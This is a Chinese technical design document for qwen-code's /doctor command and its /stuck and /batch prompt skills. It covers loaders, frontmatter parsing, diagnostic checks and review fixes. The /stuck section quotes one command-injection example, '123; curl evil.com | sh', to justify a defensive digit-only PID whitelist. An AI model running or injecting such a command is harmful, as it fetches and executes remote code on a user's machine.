



# 诊断 skills 与命令技术方案

> 适用范围：`/doctor`（代码命令）、`/stuck`（prompt 技能）、`/batch`（prompt 技能）三个自助诊断 / 编排能力。
> 涉及 PR：#3404（`/doctor`）、#4133（`/stuck`）、#3079（`/batch`），分别 Close #3018 / #3043。
> 代码基线：`QwenLM/qwen-code` `main`（已合并）。

---

## 1. 背景与动机

qwen-code 作为一个跑在用户本机的 Node.js CLI，最常见的支持类问题集中在两类：

1. **环境 / 配置类**：Node 版本不达标、未配置 auth、MCP server 连不上、ripgrep 缺失、settings 解析失败等。这类问题原先只能让用户「手动排查 git/node/shell/权限/代理」（见 issue #3018 原文），排障路径长、复现成本高。
2. **运行时卡死类**：某个会话突然「卡住 / 很慢 / 没响应」，用户无法判断是死循环、I/O hang、还是模型 API 请求挂起。
3. **大规模批量变更**：对成百上千个文件做同一种机械修改（加 license header、补 JSDoc、改 lint），串行做既慢又占满上下文（issue #3043）。

针对这三类诉求，本方案引入两种**截然不同的实现范式**，这也是整个文档的主线对比：

| 范式 | 代表 | 本质 | 确定性 | 安全边界 |
| --- | --- | --- | --- | --- |
| **代码命令**（code command） | `/doctor` | 编译进 CLI 的 TypeScript 逻辑，直接读 `Config` / 跑系统探针 | 高（同样输入同样输出） | 由代码控制，无注入面 |
| **prompt 技能**（prompt skill） | `/stuck`、`/batch` | 一份带 frontmatter 的 `SKILL.md`，body 作为 prompt 注入给 LLM 执行 | 低（依赖模型遵循指令） | 靠 prompt 内的约束 + `allowedTools` 声明 |

`/doctor` 选择「代码命令」是因为环境诊断需要**确定性**与**结构化输出**；`/stuck` / `/batch` 选择「prompt 技能」是因为卡死诊断和批量编排需要**灵活的工具组合与判断**，难以用固定代码穷举。理解这两种范式在注册、加载、执行、安全上的差异，是本方案的核心。

---

## 2. 整体架构

### 2.1 命令 / 技能注册体系

所有 slash 命令最终都由 `CommandService` 聚合。它接受一组 `ICommandLoader`，并行调用各 loader 的 `loadCommands()`，再按 loader 顺序去重合并（`packages/cli/src/services/CommandService.ts:CommandService.create`）。

交互模式下的 loader 装配顺序（`packages/cli/src/ui/hooks/slashCommandProcessor.ts:427-429`）：

1. `BuiltinCommandLoader` —— **代码命令**（`/doctor`、`/help`、`/auth` 等），来自 `packages/cli/src/services/BuiltinCommandLoader.ts`。
2. `BundledSkillLoader` —— **内置 prompt 技能**（`/stuck`、`/batch`、`/review`、`/loop`、`/qc-helper`、`/new-app`），来自 `packages/cli/src/services/BundledSkillLoader.ts`。
3. `SkillCommandLoader` —— user / project / extension 级技能，来自 `packages/cli/src/services/SkillCommandLoader.ts`。

非交互模式（`packages/cli/src/nonInteractiveCliCommands.ts:204-205`）只装配前两个 loader。命令在非交互/ACP 模式下是否可见，已**不再**靠 `nonInteractiveCliCommands.ts` 里的硬编码白名单，而是改为**每个命令自带 `supportedModes` 声明** + `CommandService.getCommandsForMode(mode)` 按执行模式过滤（`packages/cli/src/services/commandUtils.ts:getEffectiveSupportedModes`/`filterCommandsForMode`，由 `CommandService.ts:138` 调用）。`getEffectiveSupportedModes` 对未声明 `supportedModes` 的命令按 `CommandKind` 兜底（built-in 缺省保守为 `['interactive']`）。`/doctor` 因显式声明 `supportedModes: ['interactive','non_interactive','acp']` 而在非交互下可见。

**冲突解决**（`CommandService.create`）：非扩展命令（built-in / user / project / bundled）按 loader 顺序「后者覆盖前者」；扩展命令冲突则重命名为 `extensionName.commandName`。由于 `/doctor` 来自第一个 loader、各 bundled 技能名互不冲突，三者都能稳定注册。

### 2.2 两种范式的关键差异点

- **代码命令**：`doctorCommand` 是一个 `SlashCommand`（`kind: CommandKind.BUILT_IN`），它的 `action` 直接 `await runDoctorChecks(context)` 跑 TS 逻辑，返回结构化 `HistoryItemDoctor` 或 JSON —— 不经过 LLM。
- **prompt 技能**：bundled 技能的 `action` 返回 `{ type: 'submit_prompt', content }`（`BundledSkillLoader.ts:100-104`），即把 `SKILL.md` 的 body 作为 prompt 提交给模型，由模型按指令调用工具。`SKILL.md` 的 frontmatter（`name` / `description` / `argument-hint` / `allowedTools`）由 `parseSkillContent` 解析。

### 2.3 frontmatter 解析与 allowedTools 校验

`SKILL.md` 的 frontmatter 解析存在**两份并行实现**（这是一个被代码注释反复警示的维护陷阱）：

- `packages/core/src/skills/skill-load.ts:parseSkillContent` —— 用于 **extension** 级技能；
- `packages/core/src/skills/skill-manager.ts:SkillManager.parseSkillContent`（约 `:595-723`）—— 用于 **project / user / bundled** 级技能（`/stuck`、`/batch` 走这条）。

两者都用同一条正则切分 frontmatter 与 body：

```
/^---\n([\s\S]*?)\n---(?:\n|$)([\s\S]*)$/
```

`allowedTools` 的校验在两处一致：必须是数组，否则抛 `"allowedTools" must be an array`；数组元素 `map(String)` 后存入 `SkillConfig.allowedTools`（`skill-load.ts:135-144`、`skill-manager.ts:634-645`）。**注意：v1 阶段 `allowedTools` 并不在运行时强制 gating**（详见 §3.2、§5），它的实际消费点只有一个：`BundledSkillLoader.ts:46-59` 在 cron 未开启时隐藏「依赖 `cron_*` 工具」的技能。

### 2.4 架构图



---

## 3. 子系统详解

### 3.1 `/doctor` 代码命令

#### 3.1.1 命令定义与执行流

`packages/cli/src/ui/commands/doctorCommand.ts:doctorCommand`：

- `kind: CommandKind.BUILT_IN`，`description` 经 `t()` 国际化。
- 交互模式：先 `context.ui.setPendingItem({type:'info', text:'Running diagnostics...'})`，跑完后 `addItem` 一个 `HistoryItemDoctor`（含 `checks` 与 `summary`）。
- 非交互模式：返回 `{ type:'message', messageType: summary.fail>0 ? 'error':'info', content: JSON.stringify({checks,summary}) }`。
- **取消处理**：`runDoctorChecks` 后判断 `abortSignal?.aborted` 提前 `return`；`finally` 中 `setPendingItem(null)` 保证 ESC 取消后不残留 pending 态。

注册：`BuiltinCommandLoader.ts` 导入 `doctorCommand` 并加入命令数组；`doctorCommand` 自身声明 `supportedModes: ['interactive', 'non_interactive', 'acp']`（`doctorCommand.ts:51`），经 `filterCommandsForMode` 放行，使其可在 `-p` 非交互模式下运行（read-only 诊断）。

#### 3.1.2 各检查项（`packages/cli/src/utils/doctorChecks.ts`）

每个检查返回 `DoctorCheckResult { category, name, status: 'pass'|'warn'|'fail', message, detail? }`（类型见 `packages/cli/src/ui/types.ts:523-531`）。

| 检查 | 函数 | 关键逻辑 | 文件锚点 |
| --- | --- | --- | --- |
| Node 版本 | `checkNodeVersion` | `process.version` 解析主版本，`< MIN_NODE_MAJOR(=22)` 判 fail | `doctorChecks.ts:23` |
| npm 版本 | `checkNpmVersion` | `getNpmVersion()` 返回 `unknown` 判 warn | `doctorChecks.ts:46` |
| 平台 | `checkPlatform` | `process.platform/arch + os.release()` | `doctorChecks.ts:65` |
| Auth | `checkAuth` | 取 `config.getAuthType()`，`validateAuthMethod` 校验；通过后富集 provider/baseUrl/model/apiKey 信息 | `doctorChecks.ts:74` |
| API client | `checkApiClient` | `config.getGeminiClient().isInitialized()`；未初始化判 warn | `doctorChecks.ts:139` |
| Settings | `checkSettings` | `context.services.settings` 是否加载 | `doctorChecks.ts:181` |
| Model | `checkModel` | `config.getModel()` 是否配置 | `doctorChecks.ts:202` |
| MCP servers | `checkMcpServers` | 逐 server 报 connected/connecting/disconnected/disabled | `doctorChecks.ts:221` |
| Tool registry | `checkToolRegistry` | `getToolRegistry().getAllTools().length` | `doctorChecks.ts:292` |
| Ripgrep | `checkRipgrep` | `canUseRipgrep(useBuiltin)`，缺失判 warn | `doctorChecks.ts:311` |
| Git | `checkGit` | 交互态用 `services.git`；非交互态探针 `getGitVersion()` | `doctorChecks.ts:344` |

#### 3.1.3 并行执行

`runDoctorChecks`（`doctorChecks.ts:375-406`）把 4 个**异步**检查用 `Promise.all` 并发跑（`checkNpmVersion` / `checkRipgrep` / `checkApiClient` / `checkGit`，各自 spawn 子进程或做 IO），同步检查则直接调用，最后按「System → Authentication → Configuration → MCP → Tools → Git」固定顺序拼装数组，保证报告分组有序。

#### 3.1.4 非交互模式不误报 MCP

一个关键的健壮性设计（`doctorChecks.ts:236-247`）：非交互模式下 MCP 连接**从不建立**，若直接查 `getMCPServerStatus` 会一律返回 `DISCONNECTED`，从而产生**假失败**。因此非交互态对每个已配置 server 改报 `pass + "configured (not checked in non-interactive mode)"`（disabled 的报 `disabled`），避免 `/doctor -p` 在 CI 里误判。同理 `checkGit` 在非交互态用 `getGitVersion()` 直接探 `git --version`（`systemInfo.ts:100`），而不是依赖只在交互态存在的 `services.git`（这是 review 中 gpt-5.4 指出、作者在 `21f51c3d` 修复的点）。

#### 3.1.5 渲染

交互态由 `packages/cli/src/ui/components/views/DoctorReport.tsx:DoctorReport` 渲染：按 category 分组（`groupByCategory`），状态图标 `✓/⚠/✗` 对应 `theme.status.success/warning/error`，圆角边框，列宽对齐，summary 统计 pass/warn/fail。`HistoryItemDisplay.tsx` 通过 `itemForDisplay.type === 'doctor'` 接线。

### 3.2 bundled 技能机制

#### 3.2.1 `SKILL.md` 结构

每个 bundled 技能是 `packages/core/src/skills/bundled/<name>/SKILL.md`，由 frontmatter + markdown body 组成。frontmatter 字段：

- `name`（必填，经 `validateSkillName` 防注入）、`description`（必填）；
- `argument-hint`（可选，autocomplete 提示）；
- `allowedTools`（可选，字符串数组，声明技能使用的工具面）。

#### 3.2.2 解析（`parseSkillContent`）

`packages/core/src/skills/skill-load.ts:parseSkillContent`：先 `normalizeContent` 处理 BOM/CRLF，正则切分 frontmatter，`parseYaml` 解析；缺 `name`/`description` 抛错；`allowedTools` 非数组抛错。bundled 走的是 `skill-manager.ts:SkillManager.parseSkillContent`（同构实现）。**两份解析器必须同步**——代码注释（`skill-load.ts:266-290`）明确记录了历史回归：`whenToUse`、`disable-model-invocation`、`paths`、`priority` 都曾因只改一处而被静默丢弃。

#### 3.2.3 allowedTools → ToolNames 映射

`allowedTools` 里的字符串应当是**规范工具名**（`packages/core/src/tools/tool-names.ts:ToolNames`）：

| 声明值 | 规范 ToolName | 备注 |
| --- | --- | --- |
| `run_shell_command` | `SHELL` | |
| `read_file` | `READ_FILE` | |
| `edit` | `EDIT` | 注意**不是** `edit_file`（无此别名，review 中 glm-5.1 指出） |
| `write_file` | `WRITE_FILE` | |
| `glob` | `GLOB` | |
| `grep_search` | `GREP` | `search_file_content` 是其 legacy alias |
| `task` | `AGENT`（`'agent'`） | `task` 是 **legacy alias**（`tool-names.ts:112` `task → ToolNames.AGENT`），即 Agent 工具 |
| `ask_user_question` | `ASK_USER_QUESTION` | |

由于 v1 不强制 gating，`task` 用 legacy 名、或写错成 `edit_file` 都**不会立刻报错**，只是「若将来开启工具门禁会静默失效」。唯一被实际消费的映射是 `cron_*` 前缀：`BundledSkillLoader.ts:51` 用 `allowedTools?.some(t => t.startsWith('cron_'))` 在 cron 未启用时隐藏技能。

#### 3.2.4 加载为 slash 命令

`BundledSkillLoader.loadCommands`（`BundledSkillLoader.ts:31-110`）：`listSkills({level:'bundled'})` → cron 过滤 → 每个技能映射成 `SlashCommand`（`kind: CommandKind.SKILL`，`source:'bundled-skill'`，`modelInvocable: !disableModelInvocation`）。其 `action` 解析 `{{model}}` 模板，用 `buildSkillLlmContent(dir, body)`（`packages/core/src/tools/skill-utils.ts:12`，在 body 前注入「Base directory for this skill: …」）生成 prompt，若有参数则 `appendToLastTextPart` 追加用户原始输入，返回 `{ type:'submit_prompt', content }`。

#### 3.2.5 集成测试护栏

`packages/core/src/skills/bundled-skills.integration.test.ts` 是**唯一防 frontmatter 回归的护栏**：它 `readdirSync` 列出 `bundled/` 下所有目录，用 `it.each` 对每个 `SKILL.md` 跑真实 `parseSkillContent`，断言 `cfg.name === 目录名`、`description` 非空、`body.length > 0`、`allowedTools`（若存在）是数组。其价值在于：`skill-manager.ts` 在运行时**吞掉**解析错误（仅打 debug log），导致 frontmatter 写错（漏 `description`、YAML 坏、`---` 分隔符断、`allowedTools` 写成标量）只会在用户**真正调用技能时**才暴露、CI 照样绿。此测试把这类错误前移到 CI。

### 3.3 `/stuck` prompt 技能

文件：`packages/core/src/skills/bundled/stuck/SKILL.md`。frontmatter：`argument-hint: '[PID or symptom]'`，`allowedTools: [run_shell_command, read_file]`。body 是一份给 LLM 的卡死诊断 SOP，关键安全 / 健壮性设计：

- **纯数字 PID 白名单防注入**（body「Argument validation」节）：用户参数**仅当全部由 0-9 组成**才当 PID，否则视为自由文本 symptom，**绝不**拼进 shell 命令。注释明确「strict digit-only whitelist is safer than enumerating shell metacharacters」。这直接回应了 review 中 wenshao 标 **[Critical]** 的命令注入风险（如 `123; curl evil.com | sh`）。PID 快速路径还有双重 guard：`kill -0 <pid>` 验存活 + `ps -p ... | grep -qE` 验确为 qwen-code 进程，否则拒绝 dump。
- **密钥脱敏**：`ps`/`command=` 列、`sample` 栈帧可能含 `--openai-api-key=sk-…`，body 多处要求将其 redact 为 `***` 再写入报告；debug log 也要求「never quote secrets/API keys you happen to see」。
- **跨平台**：不可中断睡眠 Linux 用 `D`、macOS/BSD 用 `U`（回应 wenshao 另一条 [Critical]：macOS 漏 `U` 会误报「一切正常」）；`T`=stopped、`Z`=zombie；栈转储 macOS 用 `sample <pid> 3`、Linux 用 `cat /proc/<pid>/stack`（避开需 `CAP_SYS_PTRACE` 的 `strace`）；网络挂起 macOS 用 `lsof -nP`、Linux 用 `ss -tnp`。
- **`timeout` 包裹**：对可能自身卡住的命令（`sample`、`lsof`）建议 `timeout 15` / `gtimeout 15` 包裹，防止诊断工具反被目标进程拖死。
- **RUNTIME_DIR 解析**：按 `QWEN_RUNTIME_DIR` → `advanced.runtimeOutputDir` 设置 → `QWEN_HOME` → `~/.qwen` 的优先级解析 debug 目录（回应 Copilot review，作者在 `d92021d` 修复硬编码 `~/.qwen/debug`）。
- **进程识别**：因 Node CLI 的 `comm` 列恒为 `node`/`bun`，靠 `command` 列匹配 `qwen-code/` 路径或 `/qwen` bin，正则锚定到 `/` 或行首以避免 `analyze-qwen-code/` 之类误匹配。
- **只诊断不动手**：报告以「建议项」呈现 `kill`/`kill -CONT`，并显式声明「Do not execute these actions yourself」（回应 pomelo-nwu review）。

### 3.4 `/batch` prompt 技能

文件：`packages/core/src/skills/bundled/batch/SKILL.md`。frontmatter：`argument-hint: '<operation> <file-pattern>'`，`allowedTools: [task, glob, grep_search, read_file, edit, write_file, run_shell_command, ask_user_question]`。body 是一份 5 步编排 SOP：

1. **解析意图 + 发现文件**：`glob` 匹配目标，自动套用排除规则（`node_modules`/`dist`/测试文件/锁文件/>500KB 等）；零匹配时停止并提示（review 中补的空输入 guard）；>50 文件告知数量、>100 建议收窄。
2. **分块**：按文件数查表（1-5→1 块、6-15→2 块……76-100→5 块），约束最小 3、最大 15 文件/块，最多 5 个并行 agent（API 限速考量）。
3. **并行编排指令**：核心——「在**单条消息**里多次调用 `task`（Agent 工具）以触发并行」，body 用 **CRITICAL** 强调 `All Agent tool calls MUST be in a single response`，并给出 worker prompt 模板（逐文件报 SUCCESS/FAILED/SKIPPED，失败不中断），子 agent 用 `general-purpose` 类型。
4. **聚合**：汇总成功/失败/跳过统计表 + 明细。
5. **错误处理**：单文件失败不 abort、agent 整体失败记块失败、Ctrl+C 优雅取消。

另含 **dry-run 模式**：识别「preview / 先看看 / dry run」等意图 → 列文件 + 展示分块计划 → 询问确认 → 执行。

`/batch` 的并行能力**依赖运行时支持在单条 assistant 消息里并发执行多个 Agent 调用**——这是它与 `/doctor` 最本质的区别：`/doctor` 的并行是代码里写死的 `Promise.all`（确定），而 `/batch` 的并行是「指示模型一次发多个 `task`、再由运行时并发」（依赖外部能力，详见 §7）。

---

## 4. 关键流程（时序图 / 调用链）

### 4.1 `/doctor` 触发 → 并行跑各 check → 汇总报告



### 4.2 bundled 技能加载 → `/stuck` 调用 → LLM 受限执行



### 4.3 代码命令 vs prompt 技能对比表

| 维度 | 代码命令 `/doctor` | prompt 技能 `/stuck` `/batch` |
| --- | --- | --- |
| 载体 | TS 源码（`doctorCommand.ts` + `doctorChecks.ts`） | `SKILL.md`（frontmatter + prompt body） |
| 注册 loader | `BuiltinCommandLoader` | `BundledSkillLoader` |
| `CommandKind` | `BUILT_IN` | `SKILL` |
| action 返回 | `HistoryItemDoctor` / JSON message | `{ type:'submit_prompt', content }` |
| 是否经 LLM | 否（纯代码） | 是（body 作为 prompt） |
| 并行机制 | 代码 `Promise.all`（确定） | 指示模型「单消息多 `task`」（依赖运行时） |
| 确定性 | 高 | 低（依赖模型遵循） |
| 工具约束 | 无（代码自管） | `allowedTools` 声明（v1 不强制）+ prompt 内约束 |
| 注入面 | 无 | 有（参数→shell），靠纯数字白名单 + 脱敏防护 |
| 测试 | 单测（`doctorChecks.test.ts` / `doctorCommand.test.ts`） | frontmatter 集成测试护栏 + 人工 tmux 验证 |
| 非交互可用 | 是（`supportedModes` 声明 + JSON 输出） | 受命令 `supportedModes` / `filterCommandsForMode` 约束 |

---

## 5. 关键设计决策与权衡

1. **`/doctor` 选代码命令而非技能**：环境诊断要求**确定性**与**机器可读输出**（CI 里 `/doctor -p` 走 JSON + exit 语义）。若做成 prompt 技能，模型可能漏检、误判、输出不稳定。代价是新增检查项要改 TS、发版本，不如改 `SKILL.md` 灵活。
2. **`/stuck` / `/batch` 选 prompt 技能**：卡死诊断需要「看 `ps` → 判状态 → 取栈 → 读 log → 下结论」的链式判断，批量编排需要「发现→分块→并发→聚合」的灵活组合，两者都难以用固定代码穷举所有分支；prompt 技能把判断交给模型，迭代成本仅为改 markdown。代价是**确定性下降**——见 §7。
3. **prompt 技能的安全约束分三层**：
   - **参数注入面**：`/stuck` 用**纯数字 PID 白名单**（白名单优于黑名单枚举元字符）+ 存活/身份双 guard；自由文本永不进 shell。
   - **信息泄露面**：多处强制 `--openai-api-key=sk-… → ***` 脱敏、debug log/栈帧不引用密钥、`ps -u $(id -u)` 限当前用户避免暴露他人进程。
   - **工具面**：`allowedTools` 声明技能用到的工具。**但 v1 不在运行时强制**（review 中 pomelo-nwu 明确「informational-only in v1 (no enforcement)」），它的作用是文档 + 约定一致性 + cron gating。`/batch` 的 worker 子 agent 用 `general-purpose` 会继承父注册表**全部**工具，`allowedTools` 只约束编排者不约束 worker（glm-5.1 review 指出）。
4. **bundled 集成测试作为 frontmatter 回归护栏**：因 `skill-manager.ts` 运行时吞解析错误（只打 debug log，CI 不红），`bundled-skills.integration.test.ts` 用真实 parser 逐个解析所有 `SKILL.md`，把「漏字段 / YAML 坏 / `allowedTools` 写成标量」类错误从「用户调用时才炸」前移到 CI。这是「prompt 资产」缺少类型系统保护下的工程补偿。
5. **双解析器同步**：`parseSkillContent`（extension）与 `SkillManager.parseSkillContent`（bundled/user/project）是两份实现，新增 frontmatter 字段必须同改两处，否则静默丢弃。代码注释建议抽公共 helper（如 `parsePriorityField`、`parseModelField`、`parsePathsField`）来降低漂移风险。

---

## 6. 涉及 PR

| PR | 类型 | 作用 |
| --- | --- | --- |
| **#3404** `feat(cli): add /doctor diagnostic command` | 代码命令 | Close #3018。新增 `doctorChecks.ts` / `doctorCommand.ts` / `DoctorReport.tsx`，注册到 `BuiltinCommandLoader` 与非交互白名单；System/Auth/Config/MCP/Tools/Git 六类检查并行执行、彩色分组报告 + JSON 输出。 |
| **#4133** `feat(skills): add /stuck diagnostic skill` | prompt 技能 | 新增 `bundled/stuck/SKILL.md`。扫描卡死/慢会话：高 CPU、D/U/T/Z 状态、高 RSS、挂起子进程、网络挂起、debug log、跨平台栈转储；纯数字 PID 白名单防注入 + 密钥脱敏 + `timeout` 包裹。 |
| **#3079** `feat(skills): add /batch skill` | prompt 技能 | Close #3043。新增 `bundled/batch/SKILL.md`。`glob` 发现→分块→单消息多 `task` 并行 worker→聚合统计；含自动排除、空匹配 guard、dry-run 预览。 |

---

## 7. 已知限制 / 后续

结合三个 PR 的 review 与现状：

- **`/doctor` 未覆盖 issue #3018 要求的全部检查**：issue 原文要求「git/node/**shell/permissions/proxy**」，当前实现覆盖了 node/npm/platform/auth/config/MCP/tools/git，**缺 shell（用户默认 shell 探测）、permissions（目录/文件权限）、proxy（`HTTP(S)_PROXY` 连通性）三类**。这是后续可补的检查项。
- **Node 阈值 bug（已修）**：PR #3404 初版把 `MIN_NODE_MAJOR` 设为 **20**，但 `package.json` 的 `engines.node` 要求 **>=22**——Node 20/21 用户会被 `/doctor` 误报「pass」却实际跑不起来。现已在 `672de88a4` 改为 `MIN_NODE_MAJOR = 22`，与 engines 对齐。
- **`/doctor` 非交互 Git 误报（已修）**：早期非交互态 `services.git` 为 `undefined` 导致 `checkGit` 恒报不可用；已在 `21f51c3d` 改为退回 `getGitVersion()` 直接探针。同类「非交互假失败」在 MCP 检查处也做了规避（报 `not checked` 而非 `disconnected`）。
- **`/batch` 并行依赖运行时**：技能只能「指示」模型在单条消息里发多个 `task`，**真正并发与否取决于运行时是否支持并行 Agent 执行**；若运行时串行化这些调用，`/batch` 会退化为串行，丧失主要收益。此外 review 还指出：无 git checkpoint/回滚（部分 agent 失败会留下半改状态，建议未采纳）、worker 继承全部工具（`allowedTools` 不约束 worker）、`--dry-run` 被写成 CLI flag 形式可能让模型拒绝「preview / 先看看」这类自然语言。
- **`/stuck` 仅支持 macOS/Linux**：body 的 `ps -axo`/`grep`/`sample`/`/proc` 等命令在 Windows/PowerShell 不可用（Copilot review 指出），作者明确「暂不采纳，对齐上游 claude-code 行为，按需后续补 PowerShell 等价命令」。
- **prompt 技能效果取决于模型遵循度**：`/stuck` 的 PID 白名单、脱敏、跨平台分支，`/batch` 的分块上限、单消息并行、空匹配 guard，全部是**写在 prompt 里的约束**，并非代码强制。模型若不遵循（如把非数字参数拼进 shell、或忘记脱敏），约束即失效。这是 prompt 技能范式相对代码命令的根本权衡。
- **`allowedTools` 暂无运行时 gating**：v1 仅作文档与 cron 过滤；若未来开启工具门禁，需先做 `allowedTools → ToolNames` 的别名归一（如 `task → agent`），并修正 `edit_file` 之类非规范名，否则会静默失效。
